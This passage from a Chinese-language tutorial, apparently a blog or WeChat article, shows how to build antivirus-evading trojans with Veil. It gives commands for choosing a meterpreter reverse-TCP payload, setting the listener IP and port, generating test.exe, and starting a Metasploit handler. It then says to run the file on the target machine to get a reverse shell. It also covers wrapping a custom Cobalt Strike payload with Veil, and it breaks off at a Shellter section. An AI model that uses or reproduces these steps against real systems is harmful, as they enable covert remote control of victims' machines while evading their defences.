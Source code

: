 ![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEN8oxwtibOqsH1Zia3VPxAyc0FfyqsPZPIicBiaELdxxgTwGY1zDULGSjibzSc5B0ic9Fjegax0KjI7aJg/640?wx_fmt=png)

```
选择要使用的payloads，如选择ruby的meterpreter/rev_tcp
use 39

```

```
设置监听ip和端口
set lhost xx.xx.xx.xx
set lport 4444

```

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEN8oxwtibOqsH1Zia3VPxAycG9V8b1Q4iaWiaBTXEAxBnQOh1MX2MBmPLb0hbYBSXLfJCgUjFKSiaPycw/640?wx_fmt=png)

```
生成可执行文件并取名test
generate
test
由于刚才配置了映射路径，可执行文件被生成在本机的/tmp/veil-output/compiled路径下，对应的msf的配置文件被生成在/tmp/veil-output/handlers路径下

在本地使用msf配置文件开启msf监听
msfconsole -r test.rc

将test.exe传入目标机器，并运行，反弹回shell

```

### 使用自定义 payload 生成免杀木马

使用 cs 的 payload 为例

首先在 cs 的界面，攻击 - 生成后门 - payload generator-veil，保存为 payload.txt

开启 veil，之前步骤同上

```
选择13号payload
generate

```

在 generate 之后的选项中选择 3 号，自定义 payload，然后粘贴 payload.txt 内容，确认生成

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEN8oxwtibOqsH1Zia3VPxAyccKlUQpqot4OCmsWI2jqBL5QmrKAsC4Aj4XHdrW4mDVfbz6rXOLRdcg/640?wx_fmt=png)

shellter  

-----------

### 下载安装

下载 windows 版
